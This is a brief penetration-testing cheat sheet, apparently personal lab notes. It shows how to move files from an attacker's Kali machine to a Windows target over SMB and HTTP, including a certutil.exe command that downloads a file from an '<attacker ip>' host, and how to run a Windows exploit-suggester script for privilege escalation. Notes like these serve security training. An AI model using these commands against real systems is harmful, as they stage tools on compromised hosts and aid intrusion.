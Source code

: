 # file share
## smb  
kali  
```$sudo python3 smbserver.py EVIL .```  
windows  
```copy \\<your ip>\EVIL\<filename>```
## http   
kali  
```$sudo python -m SimpleHTTPServer 80```  
windows  
```certutil.exe -urlcache -split -f http://<attacker ip>/<file> <store file name>```   






# prv escalation
- windows-privilege-suggester.py  
https://github.com/AonCyberLabs/Windows-Exploit-Suggester   
```$ ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt ```
